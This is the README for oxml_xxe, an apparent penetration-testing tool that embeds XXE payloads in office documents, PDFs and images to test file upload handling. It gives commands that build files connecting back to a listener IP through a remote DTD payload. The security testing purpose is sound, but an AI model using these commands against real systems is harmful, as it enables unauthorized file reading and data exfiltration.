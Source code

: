 # oxml_xxe
This tool is meant to help test XXE vulnerabilities in ~~OXML document~~ file formats. Currently supported:

- DOCX/XLSX/PPTX
- ODT
- PDF
- GIF (experimental)

BH USA 2015 Presentation:

[Exploiting XXE in File Upload Functionality](http://oxmlxxe.github.io/reveal.js/slides.html#/)

Blog Posts on the topic:

[Exploiting XXE Vulnerabilities in OXML Documents - Part 1](http://www.silentrobots.com/blog/2015/03/04/oxml_xxe/)

# Installation

Installation is easy, you will need a copy of Ruby and two gems.

```
gem install highline
gem install zipruby
```

or


```
gem install bundler
bundle install
```

# Quick Examples

## Build a PDF with XXE in XMP (metadata)
```
ruby oxml_xxe.rb --poc pdf -i 192.168.14.1:8000
```

## Build a DOCX with XXE (connecting back to 192.168.14.1:8000)
```
ruby oxml_xxe.rb -s -i 192.168.14.1:8000

Select payload 11 ("remote_DTD")
```

## Build a XLSX with XXE (connecting back to 192.168.14.1:8000)
```
ruby oxml_xxe.rb -f samples/sample.xlsx -s -i 192.168.14.1:8000

Select payload 11 ("remote_DTD")
```


# Main Modes

There are two main modes:

## Build Mode ("-b")

Build mode adds a DOCTYPE and inserts the XML Entity into the file of the users choice.

## String Replacement Mode ("-s")

String replacement mode goes through and looks for the symbol § in the document. The XML Entity ("&xxe;") replaces any instances of this symbol. Note, you can open the document in and insert § anywhere to have it replaced. The common use case would be a web application which reads in a xlsx and then prints the results to the screen. Exploiting the XXE it would be possible to have the contents printed to the screen.

